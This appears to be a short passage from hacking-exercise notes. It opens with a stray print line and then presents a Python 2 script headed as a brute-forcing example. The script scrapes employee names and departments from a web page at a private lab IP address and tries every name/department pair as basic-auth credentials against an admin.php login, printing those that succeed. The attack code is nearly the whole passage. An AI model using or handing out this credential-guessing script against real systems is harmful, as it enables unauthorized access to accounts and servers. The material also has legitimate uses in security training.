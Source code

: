 ```python
  print("Connection failed")
```

### Example: Develop a brute-forcing script in Python, that will use employee details as credentials

```python
import requests
from bs4 import BeautifulSoup as bs4

def downloadPage(url):
    r = requests.get(url)
    response = r.content
    return response

def findNames(response):
    parser = bs4(response, 'html.parser')
    names = parser.find_all('td', id='name')
    output = []
    for name in names:
        output.append(name.text)
    return output

def findDepts(response):
    parser = bs4(response, 'html.parser')
    names = parser.find_all('td', id='department')
    output = []
    for name in names:
        output.append(name.text)
    return output

def getAuthorized(url, username, password):
    r = requests.get(url, auth=(username, password))
    if str(r.status_code) != '401':
        print "\n[!] Username: " + username + " Password: " + password + " Code: " + str(r.status_code) + "\n"

page = downloadPage("http://172.16.120.120")

names = findNames(page)
uniqNames = sorted(set(names))

depts = findDepts(page)
uniqDepts = sorted(set(depts))

print "[+] Working... "
for name in uniqNames:
    for dept in uniqDepts:
        getAuthorized("http://172.16.120.120/admin.php", name, dept)
```
